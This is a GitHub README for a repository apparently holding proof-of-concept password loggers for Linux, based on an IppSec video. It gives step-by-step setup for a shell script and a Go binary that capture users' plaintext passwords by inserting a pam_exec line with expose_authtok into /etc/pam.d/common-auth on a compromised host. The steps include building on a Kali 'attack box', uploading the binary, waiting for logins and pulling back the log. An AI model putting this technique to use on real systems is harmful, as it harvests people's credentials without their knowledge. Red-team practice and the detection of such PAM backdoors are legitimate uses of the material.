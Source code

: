 # IppSec's methods of keylogging on Linux through PAM

IppSec made a [fantastic video talking about logging passwords through `pam_exec` on Linux](https://youtu.be/FQGu9jarCWY?si=EjGratkh9tP0FwFc) using either a shell script or a compiled Go executable. I'm keeping examples in this repo for my use.

Thanks to IppSec for such good content!

I also made a minor improvement. IppSec's go PoC did not correctly log passwords which contained spaces. Found that out the hard way. My code here in this repo does this.

Probably goes without saying, but this requires elevated permissions / `root`.

## Bash script approach

1. Put the `./logger.sh` PoC on the host somewhere.

2. Edit `/etc/pam.d/common-auth`, add this to the top:

```
auth optional pam_exec.so quiet expose_authtok [FULL-PATH-TO-SCRIPT]
```

3. Wait for a user to try to auth. Pull the log back.

4. Profit.

Bear in mind this script PoC didn't seem to be logging sudo attempts in IppSec's video. Uncertain why this was.

## Go binary approach

This will write in JSON format and include whether authentication was successful or not.

1. Install the `go` package tooling (`apt` example below). Tell Go you'll need these dependencies:

```bash
sudo apt install golang
# sudo pacman -Syu go
go mod init logger
go get github.com/rs/zerolog
```

2. Compile the PoC here on your Linux attack box (tested on Kali) with:

```bash
go build
```

3. Upload the produced `logger` binary to the host somewhere.

4. Edit `/etc/pam.d/common-auth`, add this to the **top**:

```
auth optional pam_exec.so quiet expose_authtok [FULL-PATH-TO-BINARY]
```

5. Edit `/etc/pam.d/common-auth`, add this to the **bottom**:

```
auth optional pam_exec.so quiet [FULL-PATH-TO-BINARY]
```

6. Profit.
